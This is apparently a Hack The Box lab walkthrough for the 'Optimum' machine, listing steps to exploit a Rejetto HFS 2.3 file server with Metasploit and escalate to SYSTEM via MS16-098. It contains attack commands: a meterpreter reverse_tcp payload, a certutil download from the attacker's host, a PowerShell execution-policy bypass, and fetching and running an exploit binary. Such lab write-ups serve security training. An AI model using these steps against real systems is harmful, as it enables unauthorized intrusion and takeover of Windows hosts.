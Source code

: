HTB 7. Optimum

1. `nmap -A -T4 -p- 10.10.10.8` reveals only port 80 running `httpd 2.3`
2. Going to `10.10.10.8` shows its a file server
3. Search for default credentials (httpd has no default credentials)
4. `searchsploit rejetto` (since rejetto is the vender of this file server)
5. Search google for `rejetto hfs 2.3 exploit` reveals metasploit remote code execution and many others
6. Nmap reveals probably an OS that the exploit works on
7. Metasploit `use exploit/windows/http/rejetto_hfs_exec`, set rhsots, and set payload to `windows/x64/meterpreter/reverse_tcp`
8. `set lhost tun0` instead of typing in IP (because its faster)
9. `sysinfo` shows `x64` on `x64` and `getid` is `kostas`
10. Attempt priv esc: `getsystem` fails, `background` and `use post/multi/recon/local_exploit_suggester` (`set session 1`) and `run` reveals nothing
11. **[`sherlock`](https://github.com/rasta-mouse/Sherlock) by `rastamouse` (or more up-to-date version [`Watson`](https://github.com/rasta-mouse/Watson))**
12. Search google for `windows 2002 r2 (build 9600) privilege escalation` reveals `exploit-db` exploit avaible that might possibly work
13. Search `ms16-032` in metasploit shows there is a module for it. Lets `use` it. Set target to `1` which is `x64`. Set `lhost tun0` and `lport 443`. Ran twice; didn't work.
14. Manual method: Download `sherlock` above as `sher.ps1`. Start http server with python and use cerutil (`certutil -urlcache -f http://10.10.14.14/sher.ps1 sher.ps1`) to download file. Run with `powershell.exe -exec bypass -Command "& {Import-Module .\sher.ps1; Find-AllVulns}"`. Result: 3 Potential vulnerabilities
15. **Clone [AonCyberLabs/Windows-Exploit-Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester), run `python ./windows-exploit-suggester.py --update`**
16. Run `systeminfo` in shell on target and put in text file for `windows-exploit-suggester.py`.
17. Run `python ./windows-exploit-suggester.py --database 2014-06-06-mssb.xlsx --systeminfo win7sp1-systeminfo.txt` which detects `MS16-098` exploit; download exploit from `exploit-db`.
18. `gcc 41020.c ex.exe` fails so lets download the binary from the link provided on `exploit-db`.
19. Run python web server, download to target, and run with `sh.exe`.
20. `whoami` gives us `nt authority\system`


